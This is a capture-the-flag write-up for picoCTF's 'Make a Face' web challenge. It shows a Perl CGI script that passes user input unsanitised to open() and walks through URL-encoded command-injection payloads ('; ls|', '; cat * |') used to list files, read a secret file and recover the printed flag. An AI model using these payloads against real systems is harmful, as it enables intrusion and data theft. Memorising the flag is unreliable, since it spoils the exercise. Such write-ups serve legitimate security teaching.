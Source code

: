 ## Make a Face - 100 (Web Exploitation)
####writeup by Oksisane

### Problem

It looks like Daedalus is working on a new project to generate digital avatars for use online. After taking a look, at their site: http://makeaface.picoctf.com/ it seems like there is a pretty good chance the project isn't completed, and may have some bugs. This might be the break we've been looking for to get inside their network.

### Hint

Making a face is cool, but making a shell is even better

## Answer


### Overview

Exploit Perl's [open](http://perldoc.perl.org/functions/open.html) command to run shell commands and `cat *` to print the contents of the flag.

### Details
Opening the source of `http://makeaface.picoctf.com/` we can see the perl source used to create the page (reproduced below):
```perl
#!/usr/bin/perl

use CGI;

$q = new CGI;
if (defined($q->param('Head'))) {
  print $q->header(-type=>'image/bmp');
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));

  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
}
```
The `else` part of this code just performs initial page setup, so we can ignore it. Looking closer at the source we can see that the `open` function is called on on the user's selection of face components. To figure out how these are being sent to the script, we go back to the source of http://makeaface.picoctf.com/ where we find `js.js` (partially reproduced below).
```js

function loadImage() {
  var head = document.getElementsByName("Head")[0];
  var hair = document.getElementsByName("Hair")[0];
  var nose = document.getElementsByName("Nose")[0];
  var mouth = document.getElementsByName("Mouth")[0];
  var eyes = document.getElementsByName("Eyes")[0];
  var loading = document.querySelector("video");
  var canvas = document.querySelector("canvas")
  canvas.width = 256;
  canvas.height = 256;
  var context = canvas.getContext('2d');
  var image = new Image();
  image.src = "index.cgi?Head="+head.value+".bmp&Hair="+hair.value+".bmp&Nose="+nose.value+".bmp&Mouth="+mouth.value+".bmp&Eyes="+eyes.value+".bmp";
  loading.play();
  var i = setInterval(draw,20,loading,context);

  setTimeout(function(){clearInterval(i);context.drawImage(image,0,0);},wait);
  wait -= 200;
}
```
This load image function simply makes a request to the server in the format `<selection>.bmp` for each face component. For example, one valid component is `1.bmp`. At this point I am going to switch over to using [Postman](https://chrome.google.com/webstore/detail/postman-rest-client/fdmmgilgnpjigdojojpjoooidkmcomcm?hl=en) a Chrome extension which makes sending requests to a server easy. Once you have postman installed, browse to `chrome://apps` and click on Postman to open it. Fill out the settings as shown below (where the url is `http://makeaface.picoctf.com/index.cgi`):

<img src="makeafacecap1.JPG"/>

Now that we can send POST requests to the server and recieve the responses, we need to figure out how to exploit this. As noted earlier, our input is being passed to the perl `open` function. A little googling [reveals](http://www.cgisecurity.com/lib/sips.html) that this is a big security issue. By appending a `|` to the end of our post request, whatever we send to the server will be executed as a shell command and the result will be sent back inside the image file! Let's try it in Postman (shown below):

<img src="makeafacecap2.JPG"/>

Huh, that didn't work. Let's look back at the Perl line that interprets our input.
```perl
open(HEAD,"head".$q->param('Head'));
```
In our case, the open function would look like `headls |` and the server would try to run the `headls command` instead of the `ls` command. To fix this we add a `;` to the the start of our post request, so that the command executed by the server is `head; ls;`. Our full exploit is now `; ls|`.The postman request now looks like this:
<img src="makeafacecap3.JPG"/>

Weird, that still didn't work. Since we are using special characters such as `|` and `;` we need to [URL Encode](http://www.w3schools.com/tags/ref_urlencode.asp) them. [This Tool](http://meyerweb.com/eric/tools/dencoder/) works well. When we input our string, `;ls |` we get `%3Bls%20%7C`. Also, since the first line of the perl script is
```perl
print $q->header(-type=>'image/bmp');
```
our browser thinks the resulting data is an image, not text. To fix this we simply download the image resulting from our post request (right click - save as) and open the downloaded file in a text editor. Puting all those fixes together, we get this postman request:
<img src="makeafacecap4.JPG"/>

opening it gives us the text
```

head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```
but the file seems a bit malformed (with a bunch of NULLs at the start). Looking back at the perl script we see this line

```perl
print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
```
preforms a binary AND on all of the inputs. To get around this we simply set each input to our exploit instead of just the Head value:
<img src="makeafacecap5.JPG"/>

Which reveals the text

```

SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
css.css
eyes1.bmp
eyes2.bmp
eyes3.bmp
eyes4.bmp
hair0.bmp
hair1.bmp
hair2.bmp
head1.bmp
head2.bmp
head3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp

```

Now let's send another request to read the `SECRET_KEY_2b609783951a8665d8c67d721b52b0f8` file. By using the command `cat *` we can print out the contents of all files in the directory. So we set our command to `; cat * |`, which is `%3B%20cat%20*%7C` urlencoded.
<img src="makeafacecap6.JPG"/>.

Downloading and opening the `index.bmp` with a text editor reveals the flag!
### Flag
why_did_we_stop_using_perl_again?
